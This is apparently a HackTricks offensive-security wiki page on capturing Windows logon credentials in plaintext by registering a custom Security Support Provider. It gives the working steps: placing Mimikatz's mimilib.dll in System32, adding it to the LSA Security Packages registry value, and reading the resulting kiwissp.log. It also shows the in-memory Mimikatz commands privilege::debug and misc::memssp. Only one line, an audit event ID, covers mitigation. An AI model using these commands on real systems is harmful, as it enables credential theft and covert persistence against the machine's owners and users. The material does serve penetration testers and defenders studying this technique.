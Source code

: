 # Custom SSP

{{#include ../../banners/hacktricks-training.md}}

### Custom SSP

[Learn what is a SSP (Security Support Provider) here.](../authentication-credentials-uac-and-efs/index.html#security-support-provider-interface-sspi)\
You can create you **own SSP** to **capture** in **clear text** the **credentials** used to access the machine.

#### Mimilib

You can use the `mimilib.dll` binary provided by Mimikatz. **This will log inside a file all the credentials in clear text.**\
Drop the dll in `C:\Windows\System32\`\
Get a list existing LSA Security Packages:

```bash:attacker@target
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```

Add `mimilib.dll` to the Security Support Provider list (Security Packages):

```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```

And after a reboot all credentials can be found in clear text in `C:\Windows\System32\kiwissp.log`

#### In memory

You can also inject this in memory directly using Mimikatz (notice that it could be a little bit unstable/not working):

```powershell
privilege::debug
misc::memssp
```

This won't survive reboots.

#### Mitigation

Event ID 4657 - Audit creation/change of `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`

{{#include ../../banners/hacktricks-training.md}}



